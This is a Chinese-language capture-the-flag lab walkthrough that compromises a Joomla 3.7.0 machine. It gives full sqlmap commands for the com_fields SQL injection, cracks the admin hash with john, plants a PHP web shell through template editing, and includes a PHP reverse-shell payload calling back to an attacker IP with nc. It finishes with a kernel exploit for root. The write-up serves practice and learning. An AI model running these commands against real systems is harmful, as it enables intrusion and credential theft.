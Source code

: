 # 信息收集

nmap扫描

![img](assets/1684645252939-8635728e-3595-4c44-8e02-4dd199803ecc.png)发现目标ip,192.168.1.139

进一步收集端口、服务等信息

nmap -sV -p- 192.168.1.138

![img](assets/1684645412045-85c78109-0e65-4f0f-9a0d-d92a7ffdbeb0.png)

nmap初步漏洞扫描，发现joomla版本3.7.0，以及可能存在SQL注入漏洞

![img](assets/1684646323735-a49c5a94-1138-4cfb-93de-c3b449fefc47.png)

开放80端口，apacheweb服务，访问一下看看

![img](assets/1684645524643-526d0ce2-cb48-4eba-a63f-a47abc8d6b63.png)说明情况，仅有一个flag,同时使用whatweb或者火狐插件，识别网站信息：

![img](assets/1684645655138-8dcac71a-83a9-4e1f-ba7f-87032dbffd8d.png)joomlaCMS搭建，到这里，针对该cms进行利用（Joomscan）

joomscan -u 192.168.1.139

![img](assets/1684646750149-4d8b033c-606e-49ad-a401-210ff46ad7f2.png)adminurl打开是个后台登陆界面

![img](assets/1684646818326-b79d5bbe-ae07-40ab-84be-307e2eb77f30.png)

# web攻击

针对目前收集到的信息，joomla 3.7.0,百度，google搜索相关攻击方式

![img](assets/1684646962457-239883f0-c381-4e87-a4ad-44427b2b6b2a.png)

跟着进行攻击利用即可,msf中也有相关利用脚本，但是攻击没有成功

## 使用 searchsploit工具

[searchsploit用法 - 流亡青年 - 博客园](https://www.cnblogs.com/liuwangqingnian/p/15180838.html)

 使用前先更新一下数据库,再搜索

```bash
 searchsploit --update  
 searchsploit joomla 3.7.0
 searchsploit -p 42033.txt
```

![img](assets/1684647159129-86924625-8377-4720-ac50-80c344af8934.png)发现有一个SQL注入的漏洞可以利用

查找该利用方式的存储位置

searchsploit -p 42033.txt

![img](assets/1684647316107-1cfbb7d9-db07-4508-94ba-4d62a0cc76f9.png)

复制一份过来，详细看看

![img](assets/1684647421388-478b1ba4-9c47-4211-85fe-ef1e848ffc77.png)

用sqlmap进行注入攻击即可

```bash
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![img](assets/1684647581439-519d2041-438c-4471-a13f-6ce7a21da67c.png)

注入可以成功，那就进一步拿我们想要的信息即可

```bash
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D  joomladb --tables  -p list[fullordering] --batch
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D  joomladb -T "#__users"  --columns  -p list[fullordering]
sqlmap -u "http://192.168.1.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D  joomladb -T "#__users"  -C  name,username,password --dump  -p list[fullordering] --batch
```

![img](assets/1684648173370-f7e6af60-7d89-4b5f-8bce-36f2aa491d0b.png)

得到admin用户以及他的密码hash

在网上没找到很明显的joomla的hash文件，因此我们准备暴力解码，使用john工具将password hash值保存成文本文件hash1.txt

![img](assets/1684648561473-3a34212b-7df7-4168-abcd-ea4e858e5be9.png)

接着输入 John hash.txt解密出来是snoopy，登陆成功

![img](assets/1684648588418-55f78c4f-6f0e-443e-87bd-2cf2ab96001c.png)

得到用户名：admin,密码：snoopy,登录网站

![img](assets/1684648670463-0f5f3837-9204-41d9-a438-a8ab545c58c9.png)

 仔细翻看，最后发现templates下存在模板，而模板里的php文件可编辑

创建一个php后门文件

![img](assets/1684649126985-dcfcd2b7-327f-4524-8da9-d99d7bc241a2.png)访问一下看看，路径不对，百度查找一下joomla模板文件位置

![img](assets/1684649249747-4a07da66-58a1-4020-b617-e17c565db7a9.png)![img](assets/1684649269197-8ec5cf48-0a3a-42aa-a54e-a4196b3fb266.png) 再根据模板模块中的信息尝试一下就可以找到  

![img](assets/1684649942088-05723eab-fe75-4786-8cf6-7b8a11283727.png)蚁剑连接

![img](assets/1684650017341-408c4604-333f-42d8-b1f5-fc70a7831d16.png)

写入反弹shell，创建文件，写入反弹shell木马

```bash
<?php 
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.128 10086 >/tmp/f');
?>
```

![img](assets/1684650473995-7904324d-433c-4171-9eb2-577ed62edf5f.png)kali监听，这里访问木马，nc -lvvp 10086

192.168.1.139/templates/beez3/html/shell1.php

![img](assets/1684650576893-8b146e19-2373-4007-a083-be29f1148be4.png)

得到shell,构建稳定shell     python -c "import pty; pty.spawn('/bin/bash')"

# 提权

获取当前主机信息

```plain
cat /proc/version   版本
cat /etc/issue     发行版本
```



![img](assets/1684651052795-08def6a7-fff0-4765-a3e0-67cdc29f0095.png)

```plain
Linux version  4.4.0-21
Ubuntu 16.04
```

 看到当前版本是Ubuntu 16.04， 去searchsploit寻找一下漏洞  

![img](assets/1684651184137-60c06ed2-d332-4e18-ae4a-c178abbd2a04.png)

 对比搜索引擎搜索该版本漏洞，锁定path为39773.txt的漏洞。查看该文件路径  

![img](assets/1684651272895-bfca5e65-12d5-4db5-9eb2-5d113f07a695.png)![img](assets/1684651585334-608c105b-6794-45c0-8322-4184da20a418.png)

## 文件传输

这里的攻击脚本，需要传到目标机器，这里我想到的思路有两个：

蚁剑上传、目标自己下载，这里让目标自己下载即可

下载并解压：

![img](assets/1684652392952-b417b0d7-6334-4101-a1b0-97e87358ac71.png)解开了exploit.tar文件可以看到有很多的脚本，接着进行如下操作。

```plain
./compile.sh
ls
cd ebpf_mapfd_doubleput_exploit
ls  
./compile.sh
```

![img](assets/1684652446131-8aed7e2e-e747-4ddd-b324-a76b72570ab3.png)

编译成功，接着提权

```plain
./doubleput
```

等一会显示成功，此时是root权限，打开root目录，发现the-flag.txt

![img](assets/1684652474272-01a3dc70-6ae1-4937-9b37-16534c6f90ad.png)

# 总结收获

1、joomlaCMS扫描工具：joomscan

2、漏洞数据库 searchsploit

3、john哈希破解工具

4、文件传输